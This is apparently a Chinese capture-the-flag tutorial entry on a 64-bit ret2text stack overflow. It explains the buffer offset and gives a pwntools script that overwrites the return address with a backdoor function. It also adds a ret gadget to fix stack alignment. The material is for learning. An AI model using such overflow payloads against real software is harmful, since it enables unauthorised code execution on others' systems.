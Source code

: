## 题目4
**<font style="color:rgb(216,57,49);">一定提前学习</font>****<font style="color:rgb(216,57,49);">栈溢出</font>****<font style="color:rgb(216,57,49);">原理！！！！！</font>**

64位，Canary和PIE都关了，正常栈溢出

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698607963-58460948-e6d1-4cc2-a294-457e708c7b7a.png)

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608062-788e26ce-c78b-4109-9138-e12cd0c9d7ad.png)

buf距rbp的位置是0x100，但能read0x140个字节，存在溢出，填充0x100个字节到rbp，因为rbp本身是8个字节，所以再填充八位垃圾数据，下一个写的地方就是返回地址，把返回地址覆盖成后门函数，这样程序的执行流就被我们修改了，执行完vuln函数会返回到后门函数

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608158-75cbdf00-d3f1-4774-9921-4ecdde403d09.png)

这个IDA View-A是汇编代码，点空格就会变成这样，可以找函数地址，发现backdoor地址为0x4011CA

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608391-dac9349e-ffb9-4934-989f-0f8baa4ca7db.png)

那么应该这样写对吧

```plain
from pwn import *
context(log_level="debug", arch="amd64", os="linux")
p = process("./ret2text2")


p.recvuntil("It's a easy challenge")
backdoor=0x4011ca
payload=b'A'*0x108+p64(backdoor)

p.sendline(payload)
 
p.interactive()
```

但你会发现打不通，爆EOF

![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608520-f11fa5e7-0d5a-463c-96fe-06c84c81c762.png)

OK此处去简单了解知识点：**堆栈平衡**（只有64位会出现这种情况）

原理慢慢理解，直接给方法，下面给出两种方法解决

### 1、加ret
![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608776-5b307e2e-6b5f-43fe-a457-bf298bddb49b.png)

```plain
ret=0x40101a
payload=b'A'*0x108+p64(ret)+p64(backdoor)
```

### 2、找合适的后门地址
![](https://cdn.nlark.com/yuque/0/2025/png/56806197/1760698608553-46b11a03-da88-4f20-b7f3-9cb913fcb0f3.png)
